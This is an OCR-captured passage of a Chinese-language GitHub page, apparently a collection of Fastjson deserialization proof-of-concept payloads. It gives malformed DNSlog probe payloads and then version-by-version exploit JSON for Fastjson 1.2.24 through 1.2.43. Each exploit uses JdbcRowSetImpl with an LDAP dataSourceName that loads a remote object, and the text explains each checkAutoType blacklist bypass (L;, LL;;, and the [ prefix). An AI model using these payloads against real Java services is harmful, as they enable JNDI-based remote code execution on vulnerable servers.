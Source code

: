     >//一些畸形payload，不过依然可以触发dnslog：

    >{"rand6":{"@type":"com.alibaba.fastjson.JSONObject", 
    {"@type": "java.net.URL", "val":"http://dnslog"}}""}}

    >{"rand7":Set[{"@type":"java.net.URL","val":"http://dnslog"}]}

    >{"rand8":Set[{"@type":"java.net.URL","val":"http://dnslog"}

    >{"rand9":{"@type":"java.net.URL","val":"http://dnslog"}:0

## poc
1. ver<=1.2.24:  
  1.2.24及之前没有任何防御，并且autotype默认开启。
    
        {
        "rand1": {
          "@type": "com.sun.rowset.JdbcRowSetImpl",
          "dataSourceName": "ldap://localhost:1389/Object",
          "autoCommit": true
            }
        }

- ver>=1.2.25&ver<=1.2.41  
  从1.2.25开始默认关闭了autotype支持，并且加入了checkAutotype，加入了黑名单+白名单来防御autotype开启的情况。在1.2.25到1.2.41之间，发生了一次checkAutotype的绕过。loadclass会去掉className前后的`L`和`;`, 所以可给@type指定的类前后加上L和;来绕过黑名单检测。
       
        {
        "rand1": {
          "@type": "Lcom.sun.rowset.JdbcRowSetImpl;",
          "dataSourceName": "ldap://localhost:1389/Object",
          "autoCommit": true
        }
      }
- ver=1.2.42  
  在1.2.42对1.2.25-1.2.41的checkAutotype绕过进行了修复，将黑名单改成了十进制，对checkAutotype检测也做了相应变化。判断了className前后是不是L和;，如果是，就截取第二个字符和到倒数第二个字符。所以1.2.42版本的checkAutotype绕过就是前后双写LL和;;，截取之后过程就和1.2.25-1.2.41版本利用方式一样了。
    
      {
        "rand1": {
          "@type": "LLcom.sun.rowset.JdbcRowSetImpl;;",
          "dataSourceName": "ldap://localhost:1389/Object",
          "autoCommit": true
        }
      }

- ver=1.2.43  
  1.2.43对于1.2.42的绕过修复方式：在第一个if条件之下（L开头，;结尾），又加了一个以LL开头的条件，如果第一个条件满足并且以LL开头，直接抛异常。所以这种修复方式没法在绕过了。但是上面的loadclass除了L和;做了特殊处理外，[也被特殊处理了，又再次绕过了checkAutoType：

      {
          "rand1":{
              "@type":"[com.sun.rowset.JdbcRowSetImpl"[
                  {
                    "dataSourceName":"ldap://127.0.0.1:1389/Exploit",
                    "autoCommit":true
                  ]
              }
        }
